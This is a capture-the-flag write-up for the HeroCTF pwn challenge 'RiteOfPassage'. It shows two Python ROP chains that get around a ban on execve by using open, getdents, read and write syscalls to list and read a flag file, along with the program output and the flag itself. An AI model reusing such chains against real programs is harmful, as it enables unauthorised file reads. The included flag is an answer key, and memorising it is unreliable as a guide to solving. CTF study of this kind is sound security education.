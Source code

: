 # RiteOfPassage

### Category

Pwn

### Description

You think you know how to ROP ?
The flag is in the flag/ folder.
Oh and uuuh, I think I might have forbidden execve and execveat..
Note : Use the SUID wrapper to flag

```
Host : pwn.heroctf.fr
Port : 9002
```

Format : **Hero{flag}**  
Author : **iHuggsy**

### Write up

We know that execve and exeveat are forbidden.

We can do this in two steps :

-- Step 1

Syscalls :
-   Open (the flag folder)
-   Getdents (on the fd)
-   Write (getdents to stdout)

```py
    """
    Open "flag"
    """
    PAYLOAD += p64(pop_rdi)
    PAYLOAD += p64(0x00000000004af000) # -> Start of .data
    PAYLOAD += p64(pop_rax)
    PAYLOAD += p64(0x0067616c66) 
    PAYLOAD += p64(mov_rdi_eax) # -> Write "flag" in .data
    PAYLOAD += p64(pop_rax)
    PAYLOAD += p64(0x00000002) # 0x2 : Open
    PAYLOAD += p64(pop_rdx)    
    PAYLOAD += p64(0x00000000) # NULL
    PAYLOAD += p64(pop_rsi)    
    PAYLOAD += p64(0x00000000) # NULL
    PAYLOAD += p64(syscall)

    """
    Getdents (from .)
    """
    PAYLOAD += p64(pop_rdi)
    PAYLOAD += p64(0x00000003) # Usually, fd is 3
    PAYLOAD += p64(pop_rax)
    PAYLOAD += p64(0x0000004e) # 0x4e : Getdents
    PAYLOAD += p64(pop_rsi)
    PAYLOAD += p64(0x00000000004af000) # -> Start of .data, overwrite ;)
    PAYLOAD += p64(pop_rdx)
    PAYLOAD += p64(0x00000056) # -> For 0x56 bytes
    PAYLOAD += p64(syscall)

    """
    write getdents
    """

    PAYLOAD += p64(pop_rax)
    PAYLOAD += p64(0x00000001) # 0x1 : write
    PAYLOAD += p64(pop_rdi)
    PAYLOAD += p64(0x00000001) # 1 : stdout
    PAYLOAD += p64(pop_rsi)
    PAYLOAD += p64(0x00000000004af000) # Start of .data
    PAYLOAD += p64(pop_rdx)
    PAYLOAD += p64(0x000000056) # Write 0x56 bytes

    PAYLOAD += p64(syscall) 

    # Clean exit (1337)
    PAYLOAD += p64(xor_rax)
    PAYLOAD += p64(pop_rax)
    PAYLOAD += p64(0x0000000000003c) # 0x3c : exit
    PAYLOAD += p64(pop_rdi)
    PAYLOAD += p64(0x00000000001337) # 1337 
    PAYLOAD += p64(syscall) 

```
We get the file name in here ! ```hello```.
> b">>>I am now going to translate your sentence to computerWe actually don't care about what you think. Bye.\n\x8a\xb7,\x00\x00\x00\x00\x00\xb5\xfe\x99B\x9b\xb5\xb8y \x00hello\x00\x00\x10\x00\x00\x00\x00\x00\x08\x89\xb7,\x00\x00\x00\x00\x008\xf4`b\xcb\xc7\x0cz\x18\x00.\x00\x00\x00\x00\x04\x80\xb7,\x00\x00\x00\x00\x00\xff\xff\xff\xff\xff\xff\xff\x7f\x18\x00..\x00\x00\x00\x04\x00\x80\x00\x00\x00\x00"

-- Step 2

Syscalls :
-   Open (the flag/hello file)
-   Read (the flag from the fd)
-   Write (content of the file to stdout)

```py

    """
    Open "flag/hello"
    """
    PAYLOAD += p64(pop_rdi)
    PAYLOAD += p64(0x00000000004af000) # Start of .data again
    PAYLOAD += p64(pop_rax)
    PAYLOAD += p64(0x67616c66) 
    PAYLOAD += p64(mov_rdi_eax) # Write "flag"

    PAYLOAD += p64(pop_rdi)
    PAYLOAD += p64(0x00000000004af004) # Start of .data + 4
    PAYLOAD += p64(pop_rax)
    PAYLOAD += p64(0x6c65682f) 
    PAYLOAD += p64(mov_rdi_eax) # Write "/hel"

    PAYLOAD += p64(pop_rdi)
    PAYLOAD += p64(0x00000000004af008) # Start of .data + 8
    PAYLOAD += p64(pop_rax)
    PAYLOAD += p64(0x6f6c)
    PAYLOAD += p64(mov_rdi_eax) # Write "lo\0\0"

    PAYLOAD += p64(pop_rdi)
    PAYLOAD += p64(0x00000000004af000) # Start of our null terminated string

    PAYLOAD += p64(pop_rax)
    PAYLOAD += p64(0x00000002) # 0x2 : Open
    PAYLOAD += p64(pop_rdx)    
    PAYLOAD += p64(0x00000000) # NULL
    PAYLOAD += p64(pop_rsi)    
    PAYLOAD += p64(0x00000000) # NULL
    PAYLOAD += p64(syscall)

    

    """
    read flag/hello
    """
    PAYLOAD += p64(pop_rax)
    PAYLOAD += p64(0x00000000000000) # 0x0 : read
    PAYLOAD += p64(pop_rdi)
    PAYLOAD += p64(0x00000003) # fd is usually 3 :)
    PAYLOAD += p64(pop_rsi)
    PAYLOAD += p64(0x00000000004af000) # -> Overwrite start of .data
    PAYLOAD += p64(pop_rdx)
    PAYLOAD += p64(0x00000050) # read 0x50
    PAYLOAD += p64(syscall)


    """
    write to stdout
    """


    PAYLOAD += p64(pop_rax)
    PAYLOAD += p64(0x00000001) # 0x1 : write
    PAYLOAD += p64(pop_rdi)
    PAYLOAD += p64(0x00000001) # 1 : stdout
    PAYLOAD += p64(pop_rsi)
    PAYLOAD += p64(0x00000000004af000) # start of .data (containing the flag)
    PAYLOAD += p64(pop_rdx)
    PAYLOAD += p64(0x000000050) # 0x50
    PAYLOAD += p64(syscall)

    # Exit
    PAYLOAD += p64(xor_rax)
    PAYLOAD += p64(pop_rax)
    PAYLOAD += p64(0x0000000000003c) 
    PAYLOAD += p64(pop_rdi)
    PAYLOAD += p64(0x00000000001337)
    PAYLOAD += p64(syscall)
```

And sure enough
> b">>>I am now going to translate your sentence to computerWe actually don't care about what you think. Bye.\nHero{R0P_m4sT3R_1n_S1gHt}\n\x00\x00\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x00@\x00\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x00@\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x00@\x00\x00\x00\x00\x00\x00"

### Flag

Hero{R0P_m4sT3R_1n_S1gHt}
